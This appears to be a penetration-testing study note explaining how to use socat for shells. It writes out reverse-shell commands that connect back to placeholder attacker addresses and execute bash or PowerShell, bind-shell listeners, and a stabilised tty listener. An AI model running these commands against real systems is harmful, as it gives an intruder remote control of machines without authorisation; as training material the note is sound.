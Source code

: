 ## Introduction
- The easiest way to think about socat is as a connector between two points.

#### Reverse Shells 
**syntax**
Here's the syntax for a basic reverse shell listener in socat:
```python
socat TCP-L:<port> -
```
- As always with socat, this is taking two points (a listening port, and standard input) and connecting them together.
- The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

**On Windows we would use this command to connect back:**
```python
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

**This is the equivalent command for a Linux Target:**
```python
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

#### Bind Shells
**On a Linux target we would use the following command:**
```python
socat TCP-L:<PORT> EXEC:"bash -li"
```

**On a Windows target we would use this command for our listener:**
```python
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
`pipes`: The `pipes` argument enables the usage of pipes to establish bidirectional communication between `socat` and `powershell.exe`. It allows `socat` to act as an intermediary, forwarding data between the TCP connection and the standard input/output (stdin/stdout) of the `powershell.exe` process.

Without the `pipes` argument, `socat` would only be able to execute `powershell.exe` and forward data from the TCP connection to the process's standard input, but it wouldn't be able to capture the process's standard output and send it back to the TCP client. Consequently, any output from `powershell.exe` would be lost, making it less useful for interactive tasks.

**Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.**
```python
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

**a fully stable Linux tty reverse shell**
This will only work when the target is Linux, but is _significantly_ more stable.
**Syntax** - 
```python
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
- As usual, we're connecting two points together. In this case those points are a listening port, and a file.
- 